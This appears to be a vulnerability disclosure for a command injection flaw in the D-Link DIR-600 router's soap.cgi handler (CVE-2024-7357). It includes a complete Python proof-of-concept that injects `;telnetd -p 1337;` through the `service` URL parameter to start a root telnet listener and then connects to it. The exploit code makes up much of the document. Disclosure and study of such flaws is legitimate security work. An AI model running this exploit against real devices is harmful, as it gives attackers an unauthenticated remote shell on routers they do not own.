



# D-link DIR-600 cmd injection vulnerability

## Overview
- Vulnarable product: D-Link DIR-600
- Manufacturer's website information: https://www.dlink.com/
- Firmware download address: [https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600](https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-600)

## Affected version
- Hardware version B5
- Firmware version 2.18（the latest firmware of the router）

## Vulnerability Details

This vulnerability is found in function `soapcgi_main`. The function first try to get pointer to the `service` parameter in url and store it in `v19 == v10 + 9`:




Then the `service` parameter will be joined into the format string via `sprintf` function and stored in to `byte_436CA0`. `system` function will happily take that as its argument, causing the command injection.

## PoC

Code:

```python
from socket import *
from os import *
from time import *

####### configuration #######
host = '192.168.0.1'
upnp_port = 49152
shell_port = 1337
#############################

request = f"POST /soap.cgi?service=;telnetd -p {shell_port}; HTTP/1.1\r\n".encode()
request += f"Host: {host}:{upnp_port}\r\n".encode()
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 100\r\n"
request += b"SOAPAction: \"urn:schemas-upnp-org:service:serviceType:v#actionName\"\r\n\r\n"
 
s = socket(AF_INET, SOCK_STREAM)
print(f"[*] Connecting to {host}:{upnp_port}")
s.connect((gethostbyname(host), upnp_port))
print("[*] Sending payload")
s.send(request)

print("[*] Waiting for the shell to be opened")
sleep(5)
print(f"[*] Connecting to shell on {host}:{shell_port}")
system(f'telnet {host} {shell_port}')
```

PoC effect screenshot:



The Proof-of-Concept video is in the demo folder.

## CVE

CVE-2024-7357